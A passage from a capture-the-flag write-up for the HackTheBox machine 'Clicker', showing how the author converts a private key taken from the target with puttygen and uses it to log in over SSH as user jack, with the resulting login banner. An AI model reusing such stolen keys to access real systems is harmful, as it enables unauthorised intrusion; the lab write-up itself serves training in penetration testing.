 Now I copied the Private key to my Attackers machine but it is not in format of `id_rsa` so I compared it with my own Private key and corrected the format there .

But still I got this error →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Clicker]
└─$ ssh -i id_rsa jack@10.10.11.232
Load key "id_rsa": error in libcrypto
jack@10.10.11.232's password:
```
{: .nolineno}

So I researched on web related to this error resolve and I found a command that will convert the format in its asking format like this →

I was getting error when my format of id_rsa was not resolved →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Clicker]
└─$ sudo puttygen id_rsa -O private-openssh -o id_rsa.conv
puttygen: error loading `id_rsa': file does not begin with OpenSSH new-style key header
```
{: .nolineno}

After correction in my format I rerun the command and it worked and I got this `id_rsa.conv` private key I set the permissions as `chmod 600 id_rsa.conv` after that →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Clicker]
└─$ sudo puttygen id_rsa -O private-openssh -o id_rsa.conv
```
{: .nolineno}

## SSH Shell ⤵️

```bash
┌──(root㉿kali)-[/home/kali/Downloads/HTB/Clicker]
└─# ssh -i id_rsa.conv jack@10.10.11.232
The authenticity of host '10.10.11.232 (10.10.11.232)' can not be established.
ED25519 key fingerprint is SHA256:OAOlD4te1rIAd/MBDNbXq9MuDWSFoc6Jc3eaBCC5u7o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.232' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Nov 20 08:45:20 AM UTC 2023

  System load:           0.0
  Usage of /:            53.5% of 5.77GB
  Memory usage:          16%
  Swap usage:            0%
  Processes:             244
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.232
  IPv6 address for eth0: dead:beef::250:56ff:feb9:4cf4

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

```